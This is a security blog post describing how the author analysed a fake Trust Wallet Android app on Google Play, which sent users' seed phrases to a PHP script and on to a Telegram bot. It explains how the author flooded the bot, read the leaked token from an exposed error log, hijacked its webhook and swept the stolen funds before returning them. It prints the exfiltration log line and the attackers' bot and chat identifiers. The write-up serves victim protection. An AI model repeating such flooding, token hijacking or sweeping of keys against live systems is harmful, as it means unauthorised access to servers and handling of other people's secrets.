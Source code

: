 ```yaml
---
slug: "intercepting-and-saving-5-000-worth-of-phished-crypto"
title: "Intercepting and Saving $5,000 Worth of Phished Crypto"
date: 2020-07-01 00:00:00 +0100
type: blog
meta_img: /images/.common/meta.png
meta_desc: "A special occurrence. I managed to rescue $5k of stolen funds and return it to the owner."
comments: true
hidden: false
---
```


**This is a special occurrence.**

We write a lot about phishing, but it’s not every day that you have the opportunity to save phished funds and give them back to the victim.

**This user unfortunately installed a fake version of Trust Wallet via the Google Play store.**

We’ve [written about malicious APKs in the past](/discovering-fake-trezor-metamask-and-mycrypto-android-apks) that target cryptocurrency users, but they were hosted on third-party sites. The one we are writing about today was actually in the official Google Play store, highly ranked, and had a lot of user reviews, downloads, and a decent 3 and 1/2 star rating.

![Note: the namespace of the app is `com.trust.manager.app` whereas the official namespace is `com.wallet.crypto.trustapp`.](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/0.png)

I downloaded this app into a sandbox and decompiled it with [apktool](https://ibotpeaches.github.io/Apktool/). I was expecting keys to be sent to a Firebase database, per usual, but this one operated differently.

This application loaded a domain (trustapp.ltd) into a [WebView](https://developer.android.com/reference/android/webkit/WebView) (which was branded similarly to Trust Wallet) and prompted the user to enter their mnemonic phrase.

![](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/1.png)

As soon as the user clicks the “Restore Wallet” button, their input is sent to a server-side script called process_login.php and the user sees an error state view.

![](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/2.png)

This is the app in its entirety — it does nothing else. In fact, this technique of showing the user an error state and asking them to try again was actually pretty efficient — it got a lot of users to enter their secrets more than once.

While inspecting the domain, I noticed they had a misconfiguration with their Apache web server and they were exposing their error_log. This was exceptionally handy because of their shoddy code. Their code merely relayed everything to a Telegram API endpoint via file_get_contents (note: this is [the wrong PHP function to call to make such request](https://stackoverflow.com/a/33303776/3000179) due to the default configuration on some servers, and it doesn’t allow you to correctly error handle, unlike [curl](https://www.php.net/curl)).

Because of the lack of error handling in their script, it allowed me to cause a [Telegram HTTP 429 error](https://core.telegram.org/bots/faq#broadcasting-to-users) for their bot by sending a lot of requests in a short period of time. This then logged the unhandled error into their exposed error_log and gave me their Telegram bot API keys.

```txt
PHP Warning:  file_get_contents(https://api.telegram.org/bot1001899136:<secret>/sendMessage?chat_id=-1001173902674&amp;text=<mnemonic_phrase>): failed to open stream: HTTP request failed! HTTP/1.1 400 Bad Request in /home/trusxmko/public_html/login/process_login.php on line 20
```

![Data flow of the application](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/3.png)

Now that I had their secrets, I was able to hit the Telegram API directly with a simple flood (i.e., force the [HTTP 429](https://httpstatuses.com/429) state on their bot), which caused the secrets being entered on their domain to be logged into their error_log instead of being sent to their private chat on Telegram.

![](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/4.png)

All I had to do now was periodically fetch their error_log and parse it to fetch all the secrets entered, then pass them into my custom sweeper. Essentially, I was sitting in the middle of their phishing kit and their c2 Telegram private chat by DoSing their bot.

![](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/5.png)

I quickly set up a worker to grab their `error_log` every 180 seconds and plugged it into my custom sweeper. Now all I had to do was monitor the bots — ensuring I was still flooding their Telegram private chat and fetching the `error_log`.

Whilst I had that running, I noticed I could set up a webhook on their Telegram bot so that it would send me all channel updates for all messages sent by users (not the messages from the bot itself). I was essentially using their own bot to report to me their private conversations.

I only received a couple of updates from the webhook, but it did give me some good data. The people behind this phishing campaign had the nickname “George” (Telegram UID: 1168515438). The account was set to and spoke Turkish. Here are some messages I received from the user

```txt
Original: valletin birinden 4k vurdum harcamalar icin. onu buna \u00e7ektim

Translated: I shot 4k from one of the vallet for spending. I took it \ u00e7

--

Original: 900 dolar eth var trusttan => {$mnemonic_phrase}

Translated: Have $ 900 eth trusttan => {$mnemonic_phrase}

--

Original: trusttan geldi ,+5k usd => {$mnemonic_phrase}

Translated: came from trust, + 5k usd => {$mnemonic_phrase}

--

Original: + olarak tokenler var

Translated: There are + tokens

--

Original: ++ vurduk ama adam son anda ay\u0131kt\u0131 ethleri cekemedik

Translated: ++ we hit, but the man couldn't shoot the moon ıkt \ u0131 eths at the last minute
```

I managed to sweep a good amount of funds for the time that I went undetected (I carried this out between 2020–06–28 1630UTC+1 until 2020–06–29 0700UTC+1) as they finally noticed me flooding their chats with over 50k messages.

* They most likely had to scrap the data for that time period as there was too much spam to filter through
* It allowed me to buy some time for users who were phished that I did not manage to catch in time, as the malicious APK has been up for a couple of days now

Once they noticed me around 0700UTC+1, they created an Apache rule to 403 the error_log and then they deleted the Telegram bot. They have most likely created another Telegram bot, but I will continue to flood them from various locations by creating HTTP requests to POST process_login.php. This will spam their logs with more random phrases to buy more time for those who were phished and create more work for them to filter through the noise.

Here’s a dump of the Telegram API responses (that do not contain any user secrets) that might help with investigations:

```txt
#getMe
{
 "ok": true,
 "result": {
  "id": 1001899136,
  "is_bot": true,
  "first_name": "FuckerBot31",
  "username": "FuckersssBot",
  "can_join_groups": true,
  "can_read_all_group_messages": false,
  "supports_inline_queries": false
 }
}

#getChat
{
 "ok": true,
 "result": {
  "id": 1168515438,
  "first_name": "George",
  "type": "private"
 }
}
```

### Returning The Funds
Since I was able to see the phishing transactions, I could see the addresses of the victims. I searched for the highest-value address on Twitter and got a result, and confirmed that they were aware that they had been phished.

I was able to verify ownership by having the user sign a specific message with his keys, and once confirmed, I returned the cryptocurrency that I had been able to intercept.

### Protect Yourself
If you’ve recently entered your mnemonic phrase into an interface and experienced the same user journey as described at the start of the article, please create a fresh seed on trusted software [that you can verify](https://support.mycrypto.com/staying-safe/verifying-authenticity-of-desktop-app). Then you will need to migrate all your funds to your new address.

You will need to audit all of your apps to ensure the ones you are running are legitimate. You will need to uninstall all the non-legitimate ones and do an audit on what could have been compromised.

Learn to [protect yourself and your funds](https://support.mycrypto.com/staying-safe/protecting-yourself-and-your-funds).